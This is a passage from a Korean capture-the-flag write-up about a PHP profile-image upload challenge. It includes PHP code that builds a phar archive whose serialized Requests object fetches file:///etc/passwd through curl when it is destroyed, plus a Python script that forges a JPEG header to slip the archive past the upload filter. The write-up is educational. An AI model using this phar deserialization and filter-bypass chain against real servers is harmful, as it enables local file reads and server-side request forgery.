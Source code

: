 확장자와 header format의 앞 부분을 검사하여 정상적일 경우 서버에 업로드되고 자신의 프로필로 변경이 됩니다.

문제의 취약점은 바로 **file_exists(urldecode($fname))** 함수입니다.

여기서 흥미로운 사실은 <u>phar의 경우 확장자에 민감하지 않아 원하는 대로 변경을 해줘도 작동을 합니다.</u>

이를 이용해 Requests class를 사용하면, 필터링에 제한을 받지않기 때문에 우리가 원하는 url을 넣어 SSRF 또는 LFI등  일으키는 것이 가능합니다.

```php
ini_set('phar.readonly',0);
class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("test.tar");
$phar = new PharData("get_flag.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
```

하지만 이렇게 업로드하게되면, header format에 맞지 않습니다.

![](https://raw.githubusercontent.com/SeahunOh/seahunoh.github.io/master/assets/images/cat_proxy2.png)

아래의 코드를 통해 위의 AAABshpik의 값을 jpg header format에 맞게 변경하였습니다.

```python
import sys
import struct

def calcChecksum(data):
	return sum(struct.unpack_from("148B8x356B",data))+256

if __name__=="__main__":
	if len(sys.argv)!=3:
		print "argv[1] is filename\nargv[2] is output filename.\n"
	else:
		with open(sys.argv[1],'rb') as f:
			data = f.read()
		# Make new checksum
		new_name = "\xFF\xD8\xFF\xDBshpik".ljust(100,'\x00')
		new_data = new_name + data[100:]
		checksum = calcChecksum(new_data)
		new_checksum = oct(checksum).rjust(7,'0')+'\x00'
		new_data = new_name + data[100:148] + new_checksum + data[156:]

		with open(sys.argv[2],'wb') as f:
			f.write(new_data)
```

